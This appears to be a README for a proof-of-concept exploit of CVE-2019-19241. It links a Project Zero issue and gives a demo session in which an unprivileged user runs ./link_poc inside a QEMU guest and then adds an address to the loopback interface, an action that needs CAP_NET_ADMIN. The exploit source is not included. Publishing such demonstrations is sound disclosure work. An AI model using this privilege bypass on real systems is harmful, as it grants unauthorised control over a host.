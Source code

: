 # CVE-2019-19241

## Details
project zero blog: https://bugs.chromium.org/p/project-zero/issues/detail?id=1975

and mine: TODO

## Demo

**compile the POC directly**
```
gcc link_poc.c -o link_poc
```

*of course, the demo rootfs already contains this executable*

```
$ ./start.sh	# launch the QEMU, login in the shell with user/AAA
...
$ ip addr show dev lo 	# show correct plain lo info
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever

$ id
uid=1000(user) gid=1000(user) groups=1000(user)

$ ip addr add 1.2.3.4/32 dev lo # this is a priviledged operation
                                # CAP_NET_ADMIN required
ip: RTNETLINK answers: Operation not permitted

$ ./link_poc
submitted 2, getevents done
cq_tail = 2
result: 32

$ ip addr show dev lo
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet 1.2.3.4/32 scope global lo <-- wow, hacked
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
```
